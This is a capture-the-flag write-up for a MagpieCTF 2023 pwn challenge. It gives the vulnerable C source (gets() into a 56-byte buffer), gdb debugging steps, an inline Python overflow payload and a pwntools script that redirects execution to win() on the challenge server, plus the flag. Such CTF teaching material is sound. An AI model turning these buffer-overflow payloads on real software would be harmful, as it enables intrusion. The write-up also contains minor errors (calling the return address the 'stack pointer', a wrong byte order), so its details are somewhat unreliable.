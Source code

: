 # This outta be large enough right?

## Description

> Come in, B-Team,
>
> We've identified an OmniFlags service that seems to be running on a satelite somewhere. We were able to get a copy of the program, and we suspect that it may be exploitable for identifying a flag. See if you can find it.
>
> Over & out,\
> HQ\
>
>
> `nc srv1.2023.magpiectf.ca 6201`

## Too Small

We are given a `chall.c` source code file

```c
#include <stdio.h>
#include <stdlib.h>
__asm__(".symver realpath,realpath@GLIBC_2.0.5");
void win(){
    printf("Here is your flag:\n");
    exit(0);
}
void vuln(){
  char buf[56];
  gets(buf);
}
int main(){
  vuln();
  return 0;
}
```

Here we can see the program makes a call to `vuln()`, which creates a character buffer and takes in input to fill the buffer, then returns 0. It's clear that we want to call `win()` in order to get our flag, so how shall we do that?

The code implies a buffer overflow attack

{% hint style="info" %}
**Buffer Overflow** - Occurs when the volume of data exceeds the storage capacity of the memory buffer, which overruns the buffer's allocated memory and overwrites adjacent memory locations
{% endhint %}

In the code `chall.c` we can see a buffer of static size 56 allocated, called `buf`. User input is then placed inside this buffer with `gets(buf)`. However, what if the user input exceeds the size `buf` was allocated for? Then those values will be stored in the next slots of memory, after the locations that were allocated by `buf`, which may overwrite important information

One of these important pieces of information is the stack pointer, which points to the next instruction that the program should execute

Thus, our goal is

1. Overwrite the memory location the stack pointer is currently pointing to
2. Change it so it points at `win`
3. Profit.

First let's make the local executable `chall` executable by setting permissions

```
chmode +x chall
```

Then let's run it with gdb using `gdb chall`

First let's look into the functions of the file

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

We can see that the `win` function is located at 0x08048486. Let's put a pin in that for now, and run the program with `run`

Now, for the user input we want to overflow `buf`. It doesn't matter what dummy values we use, so let's send in "A"'s until we get a segmentation fault. Since we know the buffer has size 56, let's try 100 "A"s first, which we can send in using inline Python code

```
run <<< $(python3 -c 'print("A"*100)')
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We got a segmentation fault, as expected. However, what's notable is the `0x41414141 in ?? ()` response. This is telling us where the program is currently, when it received the segmentation fault, so the `0x41414141` is the stack pointer and `?? ()` is the function the program faulted at

If you have a good memory, you may recall none of the functions were even close to this location, and the function we ended at is unknown by the program

If you have a keen eye, you may notice that 0x41 is "A" in hexadecimal.

Putting these together, we can note that not only did we cause a segmentation fault, we also managed to overwrite the stack pointer with "AAAA"

Unfortunately, we want to overwrite the stack pointer with "08048486", the location of `win`, so let's try finding the precise number of "A"s to send such that we cause a segmentation fault, however we do not overwrite the stack pointer

To spare the painful details, this amounts to 68 "A"s

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption><p>So close to greatness</p></figcaption></figure>

If you wanted to, doing 69 or more "A"s will cause 41 to seep into the stack pointer from the right. The reason why it comes in from the right is because it is in little endian

{% hint style="info" %}
**Little Endian** - The least significant byte of the data is placed at the byte with the lowest address
{% endhint %}

So instead of 08 03 84 86 we get 86 84 04 08

We are now ready to overwrite the stack pointer with our desired location. Note that the payload needs to be in bytes, so it looks something like this

```python
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*68 + b"\x86\x84\x04\x08")'
```

<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption><p>We win!</p></figcaption></figure>

"Here is your flag:" is printed out, implying we successfully called `win`

## Let Me In

I tried to directly pipe in my Python payload into the netcat command

```python
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*68 + b"\x86\x84\x04\x08")' | nc srv1.2023.magpiectf.ca 6201
```

Unfortunately, it didn't work as the program would just hang. I similarly tried to send the Python to a file `out` and pipe in `cat out | nc srv1.2023.magpiectf.ca 6201` which did not work either.

I had the correct payload, but I just couldn't send the payload in!

Eventually, I settled down and coded up a Python script to communicate with the server

```python
from pwn import *

address = 'srv1.2023.magpiectf.ca'
port = 6201
tcpsocket = remote(address, port)

payload = "A"*68 + "\x86\x84\x04\x08"

tcpsocket.sendline(payload.encode('latin-1'))
print('Sent: 0x' + binascii.hexlify(payload.encode('latin-1')).decode('latin-1'))

print((tcpsocket.recvline()).decode('latin-1')) # Receive line after string is entered
print((tcpsocket.recv()).decode('latin-1')) # Receive the flag
```

## Flag

`magpie{0mn1_fl4g_3v3rywh3r3}`

